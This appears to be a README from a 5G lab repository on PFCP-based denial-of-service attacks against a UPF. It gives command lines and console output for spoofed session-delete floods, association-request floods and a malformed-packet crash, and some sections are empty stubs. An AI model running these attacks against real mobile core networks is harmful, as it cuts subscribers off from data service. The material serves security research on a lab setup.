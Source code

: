# PFCP based Attacks

## Table of Contents
1. [PFCP Based DOS Attacks](#dos)
	1. [Unauthorized PFCP Session Delete Request](#delete)
	2. [Session Modify to Drop](#moddrop)
  3. [Session Modify GNB address](#moddest)
2. [Crash UPF](#crash)
    1. [Flood Associate](#flood)
    2. [Malformed Modification Request](#malform)

## PFCP Based DOS Attacks <div id='dos'/>

These attacks are based on but not exactly the same as those of todo (cite pfcp paper) however instead of taking over the SMF we will just spoof an IP address and act as a second UPF that connects and then commits the unauthorized PFCP based attacks.

These attack work from either the UE or CORE vm you just need the UPF ip address. You only need to not use the same IP as the ligitimate SMF if you don't have the ability to stop the real SMF. Also you need to run and have scapy installed with root provalages to use the functionalities needed.

### Unauthorized PFCP Session Delete Request <div id='delete'/>

Here we connect to a or multiple UPFs and send unauothrized PFCP session delete requests. First we send an association request and then either flood SEIDs or target a specific SEID. Below you can see the standard use. 

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/PFCP$ sudo python3 delete_pfcp_session.py -h
sudo python3 delete_pfcp_session.py -s <source_ip> -d <destination_ip> -t <target seid (optional else will flood)> -f <flood range>

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1 -t 3 #targeting the SEID on upf 10.0.17.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  3  To upf:  10.0.17.1

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1,10.0.21.1 -f 0,3 #Flood seid 0-3 to both ips 10.0.17.1 and 10.0.21.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending association request to UPF at:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.21.1

```
Below you can see an example of a single UE being targeted and malicious user deletes their SEID, so that only one UE no longer has access to the data network.

![targeted seid](../../../Media/targeted_dos_from_ue.gif)


![Registerue](/5G/Media/regester_ue_upf_log.gif)

### Modify to Drop <div id='moddrop'/>

### Modify GNB address <div id='moddest'/>

## Crash UPF <div id='crash'/>


### Flood Associate DOS <div id='flood'/>

Another even simpler attack is to simply flood with association requests from different spoofed ips.

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 flood_associate.py -d <target IP>
```

![flood associate](../../../Media/flood_associate_dos.gif)


## Malformed Packet DOS - todo check if spoof real smf ip works <div id='malform'/>

While investigating the other PFCP Dos attacks we found a malformed packet that leads to the upf service restarting and losing all UE data associated, thusly blocking all UE traffic.

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/PFCP$ sudo python3 malformed_modify_pfcp_session.py -d <target IP>
```

![malformed dos](../../../Media/malformed_upf_dos.gif)


